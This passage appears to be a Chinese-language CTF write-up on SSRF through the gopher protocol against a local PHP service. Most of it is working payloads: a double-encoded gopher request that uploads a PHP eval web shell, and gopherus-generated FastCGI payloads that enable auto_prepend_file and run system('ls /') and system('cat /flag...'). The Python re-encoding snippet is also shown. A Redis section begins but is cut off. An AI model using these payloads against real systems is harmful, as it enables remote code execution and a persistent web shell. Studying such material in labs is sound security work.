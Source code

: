 ```python
------WebKitFormBoundaryu3KECNhVfG0fO4mb
Content-Disposition: form-data; name="submit"

提交
------WebKitFormBoundaryu3KECNhVfG0fO4mb--"""
```
payload:`gopher://127.0.0.1:80/_POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Type%253A%2520multipart/form-data%253B%2520boundary%253D----WebKitFormBoundaryu3KECNhVfG0fO4mb%250D%250AContent-Length%253A%2520308%250D%250A%250D%250A------WebKitFormBoundaryu3KECNhVfG0fO4mb%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522c.php%2522%250AContent-Type%253A%2520application/octet-stream%250A%250A%253C%253Fphp%250A%2540eval%2528%2524_REQUEST%255B%2527c%2527%255D%2529%253B%250A%253F%253E%250A------WebKitFormBoundaryu3KECNhVfG0fO4mb%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522submit%2522%250A%250A%25E6%258F%2590%25E4%25BA%25A4%250A------WebKitFormBoundaryu3KECNhVfG0fO4mb--`  
得到flag:  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241031190025.png)  
#### FastCGI协议
使用工具`gopherus`  
`python2 gopherus.py --exploit fastcgi`  
输入路径、要执行的命令  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241031193548.png)  
程序给出的`gopher link`要把`gopher://127.0.0.1:9000/_`后的内容url二次编码才能用  
```python
s='''%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH56%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%18SCRIPT_FILENAME%20/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%008%04%00%3C%3Fphp%20system%28%27ls%20/%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00'''
print(s.replace('%','%25'))
```
先查看flag文件,再读文件即可  
`%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520/%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP/1.1%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A//input%250F%2517SCRIPT_FILENAME/var/www/html/index.php%250D%2501DOCUMENT_ROOT/%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2504%2500%253C%253Fphp%2520system%2528%2527ls%2520/%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500`
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241031193117.png)

`%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520/%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP/1.1%250E%2502CONTENT_LENGTH94%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A//input%250F%2517SCRIPT_FILENAME/var/www/html/index.php%250D%2501DOCUMENT_ROOT/%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%255E%2504%2500%253C%253Fphp%2520system%2528%2527cat%2520/flag_af123e414f9f94d1c6192897a5e30599%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500`
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241031193241.png)
#### Redis协议
- 参考文章: [浅析Redis中SSRF的利用](https://xz.aliyun.com/t/5665?time__1311=n4%2Bxni5mqYqQw4CqGNDQTbna1ri%3Da3D9DGqhqID)  
